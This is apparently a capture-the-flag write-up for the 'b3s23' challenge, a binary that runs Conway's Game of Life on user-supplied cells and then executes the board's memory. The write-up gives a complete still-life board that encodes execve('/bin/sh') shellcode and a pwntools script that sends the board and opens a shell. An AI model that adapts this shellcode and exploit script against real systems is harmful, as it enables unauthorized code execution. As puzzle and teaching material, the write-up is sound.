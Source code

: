 # bs323

> Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.

Basic interaction with the binary quickly indicates that the program interprets the input as the set of live cells on a Conway's Game of Life board. After some minor reverse engineering, we see that The board is stored as a 12100-bit array, in 110 rows of 110 bits each. The binary runs 15 iterations of Game of Life on the board, and then it jumps to the first byte of the board data structure. So we need to create a board that will have shellcode at the start of the board after the Game of Life iterations.

## Game of Life
Conway's Game of Life is a famous cellular automata game. The rules are simple. The game takes place on a square grid, and a set of cells is initially colored black, or alive. The rest of the cells are considered dead. The game proceeds in steps. Each turn, you count each cell's number of live neighbors. If a live cell has 0 or 1 neighbors, it dies (turns white) in the next step (underpopulation). If a live cell has 4 or more neighbors, it also dies in the next step (overpopulation). A dead cell with exactly three neighbors becomes alive (reproduction).

This block has the implementation of the basic Game of Life rules, first counting a cell's neighbors and then deciding whether to make it alive in the next step.
![Game of Life block]
(images/isgameoflife.png)

## Shellcode Evolution
Since the entire point of Game of Life is that the evolution is difficult to predict(in fact, it's capable of representing Turing-complete computation), we need to set up the board carefully so it will evolve predictably. The easiest way to do this is to place only static structures on the board. Game of Life enthusiasts have created catalogs of all the small static patterns, which are known as "still-lifes". See http://codercontest.com/mniemiec/p1.htm for one useful example.

Execution effectively occurs across the board's rows, so we can place the code without regard to its Game of Life evolution and then use the surrounding rows to make the executing row static. We'll have to use jumps to get from each executing row to the next.

## Shellcode Choice
The shortest approach is to put code that calls `read` with the board as the destination and then send the real shellcode. Unfortunately, we didn't think of this during the competition, so we just put standard shellcode (`execve("/bin/sh", {"/bin/sh, NULL"}, ))`) on the board.

## Still-life Construction
Constructing still-lifes containing arbitrary code is actually somewhat difficult. For example, we could not find a small still-life that we could place on the board to create a sequence of five or more consecutive one-bits (live cells). So we just avoided any instructions or data with that many ones in a row.

One useful primitive to decouple adjacent instructions is the instruction `add al, 0`, which is represented as `0x04 0x00` in machine code. This instruction allows you to separate any potentially problematic adjacent instructions, because essentially all the bits are off.

One other useful primitive to combine still-life patterns is that adjacent walls (vertical sequences of live cells) do not interfere, as long as they match. So the following arrangement of two still-life patterns (the snake and the block) works:
```
xx x xx
x xx xx
```

Of course, any patterns separated by a gap of two columns or two rows will not interfere as well.

## Board
Below, we have the board we used, with shellcode inline. Executing lines are marked as beginning with `>` characters and ending with `|` characters.

```
>xxx   x   xxxx  | JNO $+1Eh;
x   x x x  x  x                       x xx x xx x xx
 x  x x x                       >   xxx x xx x xx x  | JMP $+5A;
  x x xx                           x               xxx
   x                               xx                x 

PUSH $0; PUSH $68h; XOR EAX, EAX; OR AL, $2Fh; ADD AL, $0; JMP $+55h;                       x   x
   xx xx           xx xx                   x          xx   xx x  x                  x xx x x x x x 
>  xx x x          xx x x  xx x     xx   xxx          xx    x xxxx     x          xxx x xx x x x x|
      x x             x x  x xx     xx  x                   x         x x        x          x   x
      xx              xx                xx                 xx   xx     x         xx
                                                                xx

OR AH, $73h; PUSH AX; PUSH $0Bh; POP EAX; JMP $+56h;                              x   
                           x              x      xx xx                    x xx x x x xx
>       x       xx  xx   xxx  xx xx  xx  x x     xx x x     x xx x xx   xxx x xx x x xx |
       x x      xx  xx  x     xx xx  xx   x         x x     xx x xx x  x          x    
        x               xx                          xx                 xx         

PUSH $6E69626Fh; ADD AL, 0; PUSH ESP; POP EBX; JNO $+56h;
                                            xx     x                                  x   x
       xx xx   xx x  x xx  xx                x    x x          xx     xx xx xx x     x x x x xx
>      xx x     x xxxx xx   x  xx x  x xx xxx      x           x x x   x xx xx xxx   x x x x xx |
          x     x          x   x xx  xx x x                       xx   x          x   x   x
          xx   xx   xx xx  xx                                         xx         xx
                    xx xx                                                     
PUSH ESP; POP ECX; XOR EDX, EDX; PUSH EDX; PUSH EBX; PUSH ESP; POP ECX; INT $80h;
                                                                 x
     xx           xx  xx     x xx    xx  xx   x   xx xx      xx x x
>    x x x   x xx  x  xx   xxx x  x  x x  x  x x  xx x x x   x xx  x     x          xx  xx xx |
        xx   xx x x       x      xx     xx    x         xx        xx    x x         xx  xx xx
                 x        xx                                             x
```

## Script
The following Python code converted this board into the program input and ran the exploit:

```
import re
from pwn import *

f = open('board.txt')
s = f.read()

rows = s.split('\n')
coords = [[(a.start(),i) for a in re.finditer('x', rows[i])] for i in range(len(rows))]
flatcoords = reduce(lambda x,y: x+y, coords)

tube = process("./b3s23")

for (x,y) in flatcoords:
    tube.writeline('{},{}'.format(x,y))

tube.writeline('lol')

for i in range(15):
    tube.recvuntil('01110001000111100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000')

tube.interactive()
```
